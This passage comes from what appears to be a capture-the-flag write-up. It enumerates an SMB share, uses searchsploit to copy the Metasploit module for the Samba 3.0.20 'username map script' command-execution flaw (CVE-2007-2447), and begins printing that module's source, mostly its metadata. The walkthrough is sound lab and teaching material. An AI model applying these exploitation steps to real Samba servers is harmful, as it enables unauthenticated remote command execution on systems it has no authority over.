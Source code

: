 Unfortunately, tmp was the only share we were authorized to connect. We got hte bunch of files and nothing else.

While searching for the exploit for smb 3.0.20, usig searchsploit, we got an exploit `16320,rb` which was used my metasploit. Let's analyze the exploit.
- first copy the exploit to your working directory
    - `searchsploit -m 16320.rb`
    ```bash
    ┌──(cyb3ritic㉿kali)-[~]
    └─$ searchsploit -m 16320.rb 
    Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
        URL: https://www.exploit-db.com/exploits/16320
        Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
        Codes: CVE-2007-2447, OSVDB-34700
    Verified: True
    File Type: Ruby script, ASCII text
    Copied to: /home/cyb3ritic/16320.rb
    ```

Let's see what's inside this exploit. `cat 16320.rb`
```ruby 
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                            This module exploits a command execution vulerability in Samba
                    versions 3.0.20 through 3.0.25rc3 when using the non-default
                    "username map script" configuration option. By specifying a username
                    containing shell meta characters, attackers can execute arbitrary
                    commands.

                    No authentication is needed to exploit this vulnerability since
                    this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                    [
                        [ 'CVE', '2007-2447' ],
                        [ 'OSVDB', '34700' ],
                        [ 'BID', '23972' ],
```